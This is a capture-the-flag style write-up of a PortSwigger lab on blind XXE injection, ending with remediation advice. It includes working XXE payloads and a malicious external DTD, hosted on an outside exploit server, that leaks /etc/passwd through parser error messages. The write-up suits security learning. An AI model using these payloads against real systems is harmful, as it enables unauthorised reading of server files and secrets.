








# Lab: Exploiting Blind XXE to Retrieve Data via Error Messages

| Field | Details |
|-------|---------|
| **Provider** | PortSwigger |
| **Difficulty** | Practitioner |
| **Category** | XXE Injection |
| **Date** | 2026-08-08 |

---

## Summary

This lab has a stock check feature that parses XML input but doesn't return anything in the response — so classic XXE file read won't work here.
The goal is to leak the contents of `/etc/passwd` by making the XML parser throw an error message that contains the file data.
The lab provides an exploit server on a separate domain for hosting a malicious DTD.



---

## Reconnaissance

Opened the lab — standard shopping app.


Opened a product page and found a "Check stock" button.



Intercepted the request in Burp. The body is XML:

```http
POST /product/stock HTTP/2
...
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```



Since the app parses XML, I tried the classic XXE payload first — defining an external entity pointing to `/etc/passwd` and calling it inside `<productId>`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Got this back:  
"Entities are not allowed for security reasons"  



Tried putting the entity reference in `<storeId>` instead — same error.



The app is blocking regular entity usage. But the error itself tells me the XML is being parsed — the parser read the DOCTYPE and rejected it. That means the parser is still reachable, just filtering regular entities.

Parameter entities (`%entity;`) are a different mechanism — they live inside the DTD, not the XML body. And if I load an external DTD, the parser fetches and processes it before the body is even touched. That's the way in.

---

## Exploitation

The idea: instead of reading the file and printing it in the response, I make the parser crash with an error that contains the file content.

I crafted a malicious DTD:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///doesnotexist/%file;'>">
%eval;
%exfil;
```

What this does step by step:
- `%file` reads `/etc/passwd` into memory
- `%eval` defines a new parameter entity `%exfil` — which tries to load a path that doesn't exist, but with the contents of `%file` embedded in it
- `%eval;` runs that definition
- `%exfil;` triggers the load — parser tries to open `file:///doesnotexist/root:x:0:0:...` — path doesn't exist — parser throws an error containing the full file content

The `&#x25;` is just `%` encoded — needed because you can't write a literal `%` inside an entity declaration.

I hosted this file on the exploit server as `/malicious.dtd`:



Then sent this to the stock check endpoint:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "https://exploit-0aac002b038c675f80e2a7a5014000ac.exploit-server.net/malicious.dtd">
  %xxe;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

The parser fetched my DTD, ran through it, hit the broken path, and returned an error message with the full contents of `/etc/passwd` inside it:



Lab solved.



---

## Impact & Remediation

The XML parser is processing external DTDs and parameter entities with no restrictions.
An attacker can use this to read any file the server process has access to — `/etc/passwd`, app configs, private keys, `.env` files — without ever getting a clean response back.
All it takes is a reachable server to host the DTD.

To fix this:
Disable external entity and DTD processing entirely in the XML parser config — most modern parsers have an explicit flag for this.
If XML parsing is needed, use a safe parser configuration that rejects DOCTYPE declarations by default.
Never rely on output filtering alone — blocking `&entity;` in the response doesn't stop parameter entities in external DTDs.

---

## Takeaway

- **Blind doesn't mean dead end.** No output in the response just means you need a different channel — here, the error message itself became the output.

- **Parameter entities bypass what regular entities can't.** The app blocked `&entity;` usage but had no control over `%entity;` inside an external DTD. These are different parser mechanisms and need to be blocked separately.

- **Error-based exfil is reliable.** Embedding the file content inside a non-existent file path forces the parser to include it in the error. No OOB interaction needed, no Collaborator, no callback — just a parser doing exactly what the spec says it should.